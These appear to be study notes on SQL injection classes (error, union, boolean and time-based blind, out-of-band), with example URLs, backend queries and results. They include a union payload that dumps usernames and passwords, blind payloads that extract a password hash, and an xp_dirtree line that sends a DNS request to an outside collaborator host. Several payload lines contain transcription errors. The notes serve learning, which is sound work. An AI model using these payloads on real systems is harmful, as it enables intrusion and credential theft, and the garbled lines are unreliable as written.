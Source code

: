 ```yaml
---
dg-publish: true
---
```

---
# OWASP top 10 web vuln:

![](../attachments/Pasted%20image%2020250202004548.png)

---

# types of SQL Injection

![](../attachments/Pasted%20image%2020250202005406.png)

## In-band (classic):
· In-band SQLi occurs when the attacker uses the same communication
channel to both launch the attack and gather the result of the attack
Retrieved data is presented directly in the application web page
· Easier to exploit than other categories of SQLi
### Error:
· Error-based SQLi is an in-band SQLi technique that forces the database
to generate an error, giving the attacker information upon which to
refine their injection.
Example:
Input:
`www.random.com/app.php?id='`
Output:
`You have an error in your SQL sytax, check the manual that corresponds to your MySQL server version ...`
### Union:
· Union-based SQLI is an in-band SQLi technique that leverages the
UNION SQL operator to combine the results of two queries into a
single result set
· Example:
Input:
```
www.random.com/app.php?id=' UNION SELECT username, password FROM users --
```
Output:
```
carlos
afibh9cjnkuwcsfobs7h
administrator
tn8f921skp5dzoy7hxpk
```


## inferential (blind):
· SQLi vulnerability where there is no actual transfer of data via the web
application
· Just as dangerous as in-band SQL injection
· Attacker able to reconstruct the information by sending particular requests
and observing the resulting behavior of the DB Server.
· Takes longer to exploit than in-band SQL injection

### Boolean:
Boolean-Based Blind SQLi
· Boolean-based SQLi is a blind SQLi technique that uses Boolean
conditions to return a different result depending on whether the
query returns a TRUE or FALSE result.

Boolean-Based Blind SQLi
Example URL:
`www.random.com/app.php?id=1`

Backend Query:
`select title from product where id -1`

Payload #1 (False):
`www.randon.com/app.php?id=1 and 1=2`

Backend Query:
`select title from product where id -1 and 1-2`

Payload #2 (True):
`www.random.com/@pp.php?id-1 and 1-1`

Backend Query:
`select title from product where id -1 and 1-1`

Users Table:
`Administrator / e3c33e889e0e1b62cb7f65c63b60c42bd77275d0e730432fc37b7e624b09ad1f
Payload:
www.random.com/app.php?id=1 and SUBSTRING( (SELECT Password FROM Users WHERE Username = "Administrator'), 1,
1) - 's'
Backend Query:
select title from product where id =1 and SUBSTRING((SELECT Password FROM Users WHERE Username =
'Administrator'), 1, 1) = 's'
Nothing is returned on the page
Returned False
's' is NOT the first character of the hashed password
Payload:
www.random.com/app.php?id=1 and SUBSTRING( (SELECT Password FROM Users WHERE Username = "Administrator'), 1,
1) = 'e'
Backend Query:
select title from product where id =1 and SUBSTRING((SELECT Password FROM Users WHERE Username .
'Administrator'), 1, 1) = 'e'
litle of product id 1 is returned on the page -
Returned True . "e' IS the first character of the hashed password


### Time:

· Time-based SQLi is a blind SQLi technique that relies on the database
pausing for a specified amount of time, then returning the results,
indicating a successful SQL query execution.
· Example Query:
If the first character of the administrator's hashed password is an 'a', wait for 10
seconds.
> response takes 10 seconds > first letter is 'a'
> response doesn't take 10 seconds > first letter is not 'a'



## Out-of-Band:

· Vulnerability that consists of triggering an out-of-band network
connection to a system that you control.
· Not common
· A variety of protocols can be used (ex. DNS, HTTP)
· Example Payload:
: exec master .. xp_dirtree '//0efdymgwlo5w9inae8mg4dfrgim9ay.burpcollaborator.net/a' --
